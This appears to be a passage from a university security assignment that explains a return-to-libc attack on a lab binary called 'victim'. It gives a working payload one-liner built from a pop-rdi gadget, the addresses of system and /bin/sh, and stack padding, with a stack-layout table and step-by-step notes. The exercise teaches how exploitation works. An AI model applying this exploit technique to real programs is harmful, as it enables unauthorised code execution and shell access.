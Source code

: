 5. There is an error in his execution of the attack. He does not include any input to the shell command. Try the command below instead (remember to calculate your own values for base, gadget, system, exit and address of array).

``` bash
( (
echo -n /bin/sh | xxd -p
printf %0258d 0;
printf %016x $((0x000000392ba00000+0x20338)) | tac -rs..
printf %016x 0x7fffffffddd0 | tac -rs..
printf %016x 0x000000392ba3e900 | tac -rs..
echo
) |  xxd -r -p; echo ; echo ls -lia ) | setarch `arch` -R ./victim
```

In a nutshell, this is the attack:

The goal is to replace the stack with the following data:

| Location                   | Note                                                                    |
|----------------------------|-------------------------------------------------------------------------|
| address of function system |                                                                         |
| address of /bin/sh         |                                                                         |
| address of gadget          | <- this was the return address of the original call                     |
| 8 zeros                    | replaces the saved rbp (we never return to main, so it does not matter) |
| 121 zeros                  | buffer variable (128 bytes)                                             |
| /bin/sh (7 bytes)          |                                                                         |

Let me explain the *gadget*. This is the code that is needed to put the address of `/bin/sh` into `rdi` (execute `pop rdi` then `retq`). These two instructions are simply two bytes: 0x5f followed by 0xc3. Ben (the author of the page) shows us that all we need is to find those two bytes *somewhere* (anywhere) in the executable section of the library of libc.  gcc will not complain if we jump to a section of the valid code. This way we avoid *Executable space protection*.

So here is the play by play:

1. Insert the payload into the stack, replace the stack as shown above.
2. Execute the gadget. The gadget pops the top of the stack (containing the address of /bin/sh into the register `rdi`
3. Executes the return `retq`. The return  address is the address of the `system` function. Control is transferred to it.
4. `system` behaves as expected. Executes `/bin/sh` (the shell)
5. At the end of `system` control is transferred to its return address (at the top of the stack),
6. The return value is invalid, so the program crashes with a segmentation fault. It is easy to fix it. Just add to the attack the address of `exit` and append that to the string that goes into the stack. I'll leave that as an exercise to the reader.

> If I were stuck on a desert island with only one compiler, I'd want a C compiler ---Brian Kernighan

Me too! Happy Coding.

# Submission #

You will be submitting one file:

- `report.txt` Your answers to the 7 questions
